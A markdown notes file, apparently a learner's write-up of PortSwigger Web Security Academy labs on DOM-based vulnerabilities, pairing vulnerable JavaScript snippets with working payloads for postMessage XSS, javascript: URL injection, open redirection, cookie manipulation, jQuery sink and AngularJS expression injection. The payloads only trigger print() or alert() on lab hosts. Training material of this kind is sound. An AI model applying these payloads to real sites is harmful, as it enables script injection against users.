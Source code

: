 # DOM-based Vulnerability

### DOM XSS using web messages
* Vulnerable Code - `addEventListener()` listens for a web message
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
* Payload - By adding a wrong `src` and `enerror=` function will cause `print()`
```html
<iframe src="https://ac7e1f1c1f3ed2d1c06281a0005800be.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL
* Vulnerable Code - `indexOf` looks for http: or https: in the message body
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acf31f5e1e1ff65ec0851f1800fc00fa.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### DOM XSS using web messages and JSON.parse
* Vulnerable Code - `JSON.parse` parse the message data.
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acbe1f971f2cee6bc0482be200600037.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM-based open redirection
* Vulnerable Code
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
* Payload
```html
### Visit the following URL. The vulnerable code will read the value of url= and redirect the user to the following url when "Back to Blog" is clicked:

https://acaa1f4e1f5e9aa7c0c6e265002f004c.web-security-academy.net/post?postId=4&url=https://exploit-ac4f1f6d1f429a0dc0e4e2eb018e0096.web-security-academy.net/ 
```

### DOM-based cookie manipulation
* Payload
```html
<iframe src="https://acb61f151e1962a8c0e21111007b00ff.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://acb61f151e1962a8c0e21111007b00ffweb-security-academy.net';window.x=1;"> 
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
* Vulnerable Code - We can inject JavaScript with `returnPath` parameter, and it will be added as a value to `attr()` attrobite. 
```html
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```
* Payload
```html
https://acae1faa1ef8845fc0303f5900250072.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)
```

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded. 

`<body ng-app>` --> This indicates that it uses AngularJS ng-app directive. Using double-curly braces, you can introduce an arbitrary JavaScript.

* Payload
```
{{$on.constructor('alert(1)')()}}
```

### Reflected DOM XSS
Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.